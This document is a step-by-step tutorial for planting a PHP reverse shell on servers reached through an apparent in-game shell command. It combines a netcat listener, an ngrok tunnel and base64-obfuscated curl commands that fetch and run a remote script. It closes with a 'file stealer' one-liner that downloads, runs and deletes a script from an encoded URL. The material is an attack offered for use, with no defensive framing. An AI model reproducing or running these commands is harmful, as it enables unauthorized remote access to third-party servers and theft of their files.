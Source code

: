 # Simplest Reverse Shell Tutorial (Supports Some Linux and Some Windows Servers)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
```ngrok tcp 4444```


4. **Start Netcat**  
```nc -lvp 4444```


5. **Download and Edit PHP File**
   - [Download the PHP file](https://files.catbox.moe/s69sex.php) and edit the IP and port to be the Ngrok one.
   - Reupload the edited file to [catbox.moe](https://catbox.moe).

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
```curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)```


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe gives in the URL to Base64.

9. **Run the PHP Script**
 ```php $(echo "{FILE NAME BASE64}" | base64 --decode)```
 - If there are errors, the server might not have PHP installed. See below for installation instructions.

## Install PHP on Linux Servers

**To get the distro, use the command:**
```cat /etc/os-release```

### Ubuntu/Debian
```apt install php```

### Fedora
```dnf install php -y```

### Arch
```pacman -S php```


# Duck Notes
![info](https://r2.e-z.host/1aef6b94-3653-4c51-8fef-6587df7580f5/qos28fmh.png)

# file stealer
```bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && ./steal.sh && rm -- steal.sh'```
